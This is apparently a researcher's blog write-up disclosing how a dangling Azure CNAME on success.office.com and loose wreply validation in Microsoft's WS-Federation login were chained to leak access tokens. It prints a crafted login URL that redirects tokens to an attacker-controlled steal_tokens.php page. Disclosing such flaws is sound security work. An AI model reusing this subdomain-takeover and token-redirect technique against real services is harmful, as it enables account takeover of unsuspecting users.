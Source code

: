 ```yaml
---
layout: post
title: Leaking access tokens from Microsoft apps chaining two vulnerabilities
---
```


---




### First Issue:

During the initial reconnaissance I retrieved the list all possible subdomains of office.com pointing to many Azure instances. One of them was success.office.com which was not getting resolved, but had a CNAME pointing to an Azure web app instance `successcenter-msprod`. 
Chances are that you can takeover an Azure instance if the domain is not getting resolved. So I tried to create a web app with the name `successcenter-msprod` in my Azure portal
and it was accepted as a valid name. In other words, the previous instance with that name had been removed and is now free.
Which basically means, whatever we host on `successcenter-msprod`; `success.office.com` would point to it as the CNAME record specifies. 

### Second Issue:

Microsoft uses WS Federation for it's implementation of a centralized login system for most of the applications including Outlook, Sway, Microsoft Store etc. WS Fed is similar to Oauth. 
`wreply` in WS Fed is the counterpart of `redirect_url` in Oauth. If you read Nir Goldshlager's Facebook Oauth bug series, you will understand
the dangers of not using an exact URL match (or not properly validating) for wreply or redirect_url wherever possible. Here in this case, Microsoft 
was allowing any subdomains of office.com (*.office.com) to be a valid wreply URI. 


Since one of their subdomain was in my control, I could use this domain as a valid `wreply` url and was able to leak the access tokens:

`https://login.live.com/login.srf?wa=wsignin1.0&rpsnv=13&ct=1529775349&rver=6.7.6643.0&wp=MBI_SSL&wreply=https://success.office.com/steal_tokens.php&lc=1033&id=292666&lw=1&fl=easi2&pcexp=true&uictx=me`

Basically, if any user who clicked on a crafted link with this changes, the tokens would get leaked and this token can be exchanged
for a session token and subsequently an account takeover would result.


<img src="http://139.59.39.57/images/outlook.jpg" />

PS : There are different news being spread out with different hypes which may not reflect pure technical terms or properly specify
the steps required to exploit this; those may not reflect my opinions.
